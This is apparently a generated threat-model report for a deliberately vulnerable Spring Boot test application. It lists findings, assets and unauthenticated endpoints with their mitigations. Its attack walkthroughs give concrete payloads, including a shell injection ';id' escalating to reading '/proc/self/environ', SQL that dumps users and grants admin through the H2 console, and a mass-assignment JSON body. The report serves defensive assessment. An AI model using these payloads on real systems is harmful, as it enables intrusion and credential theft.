

**Key takeaway:** Until ● [M-004](#m-004) (Use parameterized database queries) lands, 🔴 [F-004](#f-004) is exploitable at `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-004](#m-004) (Use parameterized database queries)

### 3.4 H2 Web Console Exposed Without Authentication Allowing Full Database Access

**Source:** 🔴 [F-006](#f-006) — `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

Severity **Critical** ([CWE-862](https://cwe.mitre.org/data/definitions/862.html)). STRIDE: Information Disclosure. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. An unauthenticated attacker navigates to `/h2-console` and enters the JDBC URL `jdbc:h2:mem:appsec_verification_target` with username=sa and a blank password.
2. The H2 console connects to the application's in-memory database.
3. An attacker executes `SELECT * FROM app_users` to obtain all usernames, emails, roles, admin flags, and BCrypt password hashes.
4. The attacker executes `UPDATE app_users SET admin=true WHERE username='attacker'` to grant themselves admin privileges.

**Sequence Diagram**



**Key takeaway:** Until ● [M-006](#m-006) (Enforce server-side authorization on every endpoint) lands, 🔴 [F-006](#f-006) is exploitable at `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32` (Critical-severity, [CWE-862](https://cwe.mitre.org/data/definitions/862.html)).

**Defense in Depth**

- Primary mitigation: ● [M-006](#m-006) (Enforce server-side authorization on every endpoint)

### 3.5 Legacy Admin Board Fully Open Without Authentication in Security Config

**Source:** 🔴 [F-009](#f-009) — `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:41`

Severity **Critical** ([CWE-862](https://cwe.mitre.org/data/definitions/862.html)). STRIDE: Elevation of Privilege. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. An unauthenticated attacker navigates to GET `/legacy/admin`, which is served without authentication due to SecurityConfig:41.
2. LegacyAdminBoardController:23 renders the full user list including all user IDs.
3. An attacker sends POST `/legacy/admin/users/100/promote`; LegacyAdminBoardController:29 sets the target user's admin=true and role=ADMIN and saves the change.
4. The promoted account now has `ROLE_ADMIN` access to all @PreAuthorize-gated endpoints and the full admin board, completing a full privilege escalation without authentication.

**Sequence Diagram**


**Key takeaway:** Until ● [M-009](#m-009) (Enforce server-side authorization on every endpoint) lands, 🔴 [F-009](#f-009) is exploitable at `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:41` (Critical-severity, [CWE-862](https://cwe.mitre.org/data/definitions/862.html)).

**Defense in Depth**

- Primary mitigation: ● [M-009](#m-009) (Enforce server-side authorization on every endpoint)

### 3.6 Mass Assignment Privilege Escalation in Spring Boot Web Application

**Source:** 🔴 [F-010](#f-010) — `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. An attacker authenticates as a regular user (e.g., alice) and sends `PUT /api/profile/me` with Content-Type application/json.
2. The request body is `{"email":"alice@example.com","role":"ADMIN","admin":true}` - role and admin are user-supplied.
3. ProfileController:44-47 applies `incoming.getRole()` (ADMIN) and `incoming.isAdmin()` (true) to the current user object without checking if the requester has permission to change roles.
4. `appUserRepository.save()` persists the promoted record; alice now has `ROLE_ADMIN` access to all @PreAuthorize-gated admin endpoints.

**Sequence Diagram**



**Key takeaway:** Until ● [M-010](#m-010) (Allowlist client-controlled fields) lands, 🔴 [F-010](#f-010) is exploitable at `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ● [M-010](#m-010) (Allowlist client-controlled fields)

### 3.7 Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile)

**Source:** 🔴 [F-005](#f-005) — `Dockerfile:12`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Information Disclosure. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. An attacker with access to the container registry or any image archive pulls the image and runs `docker history --no-trunc <image>` to enumerate all layer metadata.
2. The attacker reads the ENV layer values for `DB_PASSWORD`, `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, and `AWS_SECRET_ACCESS_KEY` in plain text from the history output.
3. The attacker uses the `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` to call AWS APIs and the `JWT_SIGNING_KEY` to sign arbitrary tokens accepted by the live application.

**Sequence Diagram**



**Key takeaway:** Until ● [M-005](#m-005) (Move secrets to a managed secret store) lands, 🔴 [F-005](#f-005) is exploitable at `Dockerfile:12` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ● [M-005](#m-005) (Move secrets to a managed secret store)

### 3.8 OS Command Injection in Tool Controller

**Source:** 🔴 [F-003](#f-003) — `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

Severity **Critical** ([CWE-78](https://cwe.mitre.org/data/definitions/78.html)). STRIDE: Tampering. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. An unauthenticated attacker sends GET `/api/tools/lookup?name=x`;id to the public endpoint.
2. ToolController:18 constructs `{"sh","-c","echo Result for x;id"}` and passes it to `Runtime.exec()`.
3. The shell interprets the semicolon as a command separator and executes both `echo Result for x` and `id`, returning the UID/GID in the `output` field.
4. An attacker escalates to `cat /proc/self/environ` or a reverse shell to fully compromise the server.

**Sequence Diagram**



**Key takeaway:** Until ● [M-003](#m-003) (Eliminate shell invocation in ToolController.lookup and vali) lands, 🔴 [F-003](#f-003) is exploitable at `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18` (Critical-severity, [CWE-78](https://cwe.mitre.org/data/definitions/78.html)).

**Defense in Depth**

- Primary mitigation: ● [M-003](#m-003) (Eliminate shell invocation in ToolController.lookup and validate input against…)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

| Asset | Classification | Description |
|----------------------|--------------|------------------------------------|
| User Credentials (H2 Database) | Restricted | Bcrypt-hashed passwords and usernames stored<br/>in the H2 in-memory database. Targeted by<br/>SQL injection attacks via email/tag<br/>parameters and the H2 console. Recreated<br/>from seed data on startup. |
| Legacy Plaintext Credentials (SQLite) | Restricted | Cleartext usernames and passwords stored in<br/>runtime/legacy-auth.sqlite. No hashing<br/>applied; directly compromised via SQL<br/>injection or direct file read. Baked into<br/>Docker image layers via COPY. |
| JWT Signing Key | Restricted | HS256 signing key hardcoded in<br/>SignedJwtService and exposed as Dockerfile<br/>ENV `JWT_SIGNING_KEY`. Compromise allows<br/>arbitrary JWT forgery and session<br/>impersonation for any user or role. |
| Environment Secrets (Actuator Exposure) | Restricted | All environment variables including<br/>`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`,<br/>`DB_PASSWORD`, and `JWT_SIGNING_KEY` exposed<br/>unauthenticated at /actuator/env. Any<br/>attacker with network access can retrieve<br/>full environment configuration. |
| Application Session Tokens | Confidential | JSESSIONID session cookies issued by Spring<br/>Security. No explicit Secure or HttpOnly<br/>flags set in code; CSRF disabled globally,<br/>enabling cross-site session theft via the<br/>reflected CORS policy. |
| User Orders and Documents | Confidential | Order records (amounts, status, owner) and<br/>document records (content, metadata) stored<br/>in H2. Accessible cross-user via BOLA/IDOR<br/>vulnerabilities on /api/orders/{id} and<br/>/api/documents/{id}. |
| Uploaded Files and Documents | Internal | User-uploaded binary files and documents<br/>stored under runtime/uploads/ and<br/>runtime/documents/. No file type validation;<br/>accessible beyond intended paths via path<br/>traversal on /api/files/read. |
| Application Configuration and Source Code | Internal | Spring application configuration<br/>(`application.yml`), Terraform IaC, and<br/>compiled artifacts. Exposed via H2 console,<br/>actuator/configprops endpoint, and baked<br/>into Docker image layers via COPY. |

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (87)

| Method | Route | Risk | Notes |
|------|----------------------------------------|----------|------------------------------------|
| GET | `/legacy/admin` | 🔴 Critical | 🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>Unauthenticated legacy admin board — full admin privilege with no access control |
| POST | `/​legacy/​admin/​users/​{id}/​delete` | 🔴 Critical | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`)<br/>Unauthenticated user deletion — destructive admin action without authentication |
| POST | `/​legacy/​admin/​users/​{id}/​promote` | 🔴 Critical | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`)<br/>Unauthenticated user promotion — privilege escalation without authentication |
| GET | `/login` | 🔴 Critical | 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup (`admin/password`) (`SecurityConfig.java:79`)<br/>🟠 [F-028](#f-028) — Cleartext Credentials Written to Application Logs (CredentialLoggingFilter) (`CredentialLoggingFilter.java:25`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/WebUiController.java:41` |
| GET | `/login-raw` | 🔴 Critical | 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute Force (`SecurityConfig.java:50`)<br/>🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints (`LegacySqliteAuthController.java:26`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:37` |
| PUT | `/me` | 🔴 Critical | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`)<br/>Mass assignment PUT — JPA entity bound directly, attacker can set role/admin fields |
| POST | `/orders` | 🔴 Critical | 🔴 [F-004](#f-004) — SQL Injection (`OrderLookupDao.java:22`)<br/>🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:61` |
| POST | `/profile` | 🔴 Critical | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/ProfilePageController.java:51` |
| GET | `/​h2-​console/​** (H2 database browser)` | 🔴 Critical | 🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database Access (`SecurityConfig.java:32`)<br/>🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console (`application.yml:11`)<br/>H2 in-browser SQL console exposed unauthenticated. frameOptions set to SAMEORIGIN only; full SQL query access to the application database. |
| GET | `/lookup` | 🔴 Critical | 🔴 [F-003](#f-003) — OS Command Injection via Name Parameter (`ToolController.java:18`)<br/>Command injection — user input passed to `Runtime.exec` without sanitization |
| GET | `/me` | 🔴 Critical | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:26` |
| GET | `/orders` | 🔴 Critical | 🔴 [F-004](#f-004) — SQL Injection (`OrderLookupDao.java:22`)<br/>🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySessionOrderController.java:27` |
| GET | `/profile` | 🔴 Critical | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/SecureJwtController.java:14` |
| GET | `/search` | 🔴 Critical | 🔴 [F-004](#f-004) — SQL Injection (`OrderLookupDao.java:22`)<br/>Order search SQL injection — email parameter concatenated into native query |
| GET | `/users` | 🔴 Critical | 🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords (`LegacySqliteAuthController.java:65`)<br/>🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account (`LegacySqliteUserStore.java:37`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:49` |
| ? | `ANY /api/legacy-sqlite` | 🔴 Critical | 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords (`LegacySqliteAuthController.java:65`)<br/>🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account (`LegacySqliteUserStore.java:37`)<br/>SQLite legacy auth — SQL injection sink and cleartext password comparison |
| ? | `ANY /api/orders` | 🔴 Critical | 🔴 [F-004](#f-004) — SQL Injection (`OrderLookupDao.java:22`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:14` |
| ? | `ANY /api/profile` | 🔴 Critical | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:17` |
| ? | `ANY /api/tools` | 🔴 Critical | 🔴 [F-003](#f-003) — OS Command Injection via Name Parameter (`ToolController.java:18`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:13` |
| GET | `/admin/users` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:46` |
| POST | `/admin/users` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:53` |
| GET | `/admin/users/{id}` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:79` |
| POST | `/admin/users/{id}` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:88` |
| POST | `/admin/users/{id}/delete` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:129` |
| POST | `/csrf/settings` | 🟠 High | 🟠 [F-024](#f-024) — Homegrown CSRF Token Validates Presence Only, Not Value (CsrfSettingsController) (`CsrfSettingsController.java:47`)<br/>CSRF settings POST — token presence checked, not actual value matched |
| POST | `/documents` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🟠 [F-025](#f-025) — Unrestricted File Upload with No MIME Type or Extension Validation (`BusinessFileStorage.java:17`)<br/>🟠 [F-033](#f-033) — Path Traversal via Name Parameter in (`FileReadController.java:19`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:60` |
| POST | `/preview` | 🟠 High | 🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController (XXE) (`XmlPreviewController.java:22`)<br/>🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion (`XmlPreviewController.java:22`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:20` |
| GET | `/register` | 🟠 High | 🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store (`LegacySqliteUserStore.java:100`)<br/>Self-registration — no password policy, no email verification, no captcha |
| POST | `/register` | 🟠 High | 🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store (`LegacySqliteUserStore.java:100`)<br/>Self-registration POST — same risks as GET |
| GET | `/token` | 🟠 High | 🟠 [F-019](#f-019) — Non-cryptographic RNG in a security module Java (`LegacyTokenService.java:10`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:26` |
| ? | `ANY /api/admin` | 🟠 High | 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data (`SecurityConfig.java:34`)<br/>Unauthenticated admin report — no access control check |
| GET | `/​actuator/​** (env, heapdump, configprops, health, info, metrics)` | 🟠 High | 🟠 [F-034](#f-034) — Spring Actuator Fully Exposed with show-values:ALWAYS and No Authentication (`application.yml:33`)<br/>Spring Actuator management endpoints fully exposed without authentication. /actuator/env leaks all environment variables including hardcoded secrets; /actuator/heapdump provides full heap dump. |
| GET | `/audit` | 🟠 High | 🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) (`LegacyJwtVerifier.java:15`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacyAdminAuditController.java:37` |
| GET | `/csrf/settings` | 🟠 High | 🟠 [F-024](#f-024) — Homegrown CSRF Token Validates Presence Only, Not Value (CsrfSettingsController) (`CsrfSettingsController.java:47`)<br/>CSRF settings GET — homegrown token issued but not validated on submission |
| GET | `/documents` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🟠 [F-025](#f-025) — Unrestricted File Upload with No MIME Type or Extension Validation (`BusinessFileStorage.java:17`)<br/>🟠 [F-033](#f-033) — Path Traversal via Name Parameter in (`FileReadController.java:19`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:42` |
| GET | `/fetch` | 🟠 High | 🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`)<br/>SSRF fetch — user-supplied URL fetched by server with no allowlist or scheme restriction |
| GET | `/legacy-session` | 🟠 High | 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/AuthController.java:41` |
| GET | `/preview` | 🟠 High | 🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController (XXE) (`XmlPreviewController.java:22`)<br/>🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion (`XmlPreviewController.java:22`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/outputhandling/OutputPreviewController.java:19` |
| GET | `/read` | 🟠 High | 🟠 [F-033](#f-033) — Path Traversal via Name Parameter in (`FileReadController.java:19`)<br/>Path traversal read — filename concatenated to base directory, no canonicalization |
| GET | `/report` | 🟠 High | 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data (`SecurityConfig.java:34`)<br/>Admin report GET — same as R-053, SQL string concatenation but server-controlled values |
| GET | `/users/{id}` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/UserDirectoryController.java:24` |
| GET | `/{id}` | 🟠 High | 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>IDOR user detail — no ownership check, any authenticated user can retrieve any user record |
| ? | `ANY /api/auth` | 🟠 High | 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)<br/>JWT auth building blocks including unsigned-JWT verification bypass paths |
| ? | `ANY /api/cors` | 🟠 High | 🔴 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true (`CorsPolicyFilter.java:31`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/cors/CorsAccountController.java:12` |
